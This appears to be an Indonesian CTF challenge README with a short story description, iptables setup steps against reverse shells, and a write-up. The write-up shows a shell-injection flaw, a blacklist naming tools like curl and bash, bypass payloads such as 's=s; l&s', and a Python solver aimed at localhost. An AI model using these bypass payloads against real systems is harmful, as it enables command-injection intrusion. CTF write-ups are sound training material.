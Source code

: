 # El Kebanteren

## Deskripsi
Prabu Negronegoro I adalah raja yang bijaksana dan adil, dihormati oleh rakyatnya karena kepemimpinannya yang tegas namun penuh kasih. Ia dikenal karena kemampuannya mendengarkan suara rakyat dan membuat keputusan yang bijak dalam memimpin kerajaan yang subur dan makmur. Putranya, Raden Banter, mewarisi sifat-sifat ayahnya, penuh semangat dan ambisi untuk membawa perubahan yang lebih baik bagi kerajaan, menjadikannya sosok yang diharapkan dapat melanjutkan legasi kebijaksanaan dan keberanian Prabu Negronegoro I.

## Author
abdieryy

## To Do ⚠

To Do List yang harus dilakukan setelah melakukan deploy challenge, yaitu menggunakan iptables demi mitigasi dari reverse shell dan cara unintended lainnya.

1. Deploy challenge
2. Masuk pada shell container docker dengan tambahan command --privileged
3. Masukan command berikut
    ```
    iptables -A OUTPUT -p tcp --sport 5000 -j ACCEPT
    iptables -P OUTPUT DROP
    ```

## Solve
Dapat diketahui terdapat sebuah kerentanan code injection di bagian:
```py
    process = subprocess.run(inputed, shell=True, capture_output=True, text=True)
    output = process.stdout
```

Namun terdapat blacklist seperti ini:
```py
    blacklist = [
    "ls", "cat", "rm", "mv", "id", "cp", "wget", "curl", "chmod", "chown", "find", "ps",
    "grep", "awk", "sed", "bash", "sh", "python", "perl", "php", "sudo", "whoami",
    "vi", "vim", "nano", "info", "uname", "more", "head", "less", "tail", "txt", "&&", "|", "`", "$(", ">", "<", "&", "'", '"', "*", "\n"
    ]
```

Untuk melakukan bypass, kita bisa menggunakan payload seperti berikut:

`s=s; l&s` == `ls`

Bila ingin melakukan listing directory, karena terdapat sleep sebesar 0.1 detik sebelum output file dihapus kita bisa menggunakan threading.

Sehingga didapat solver berikut:

```py
import requests
from datetime import datetime
import binascii
requests.packages.urllib3.disable_warnings()
import threading
import subprocess

url = "http://localhost:5000/"

s = requests.Session()

inputed = "d=d; i$d"

data_req = {
    "input": inputed,
    "submit": "Submit"
}

def exp_get_id():
    r = s.post(url + "get_quotes", data=data_req, verify=False)
    get_date_minute = datetime.now().strftime('%Y%m%d%H%M')
    random_number = binascii.hexlify(get_date_minute.encode()).decode()
    filename = f'{random_number}.txt'
    return filename

def get_response():
    r = s.get(url + "generated_quotes/" + exp_get_id(), verify=False)
    # print("Click the link: " + url + "generated_quotes/" + exp_get_id())
    print(r.text)

if __name__ == "__main__":
    threading.Thread(target=get_response).start()
```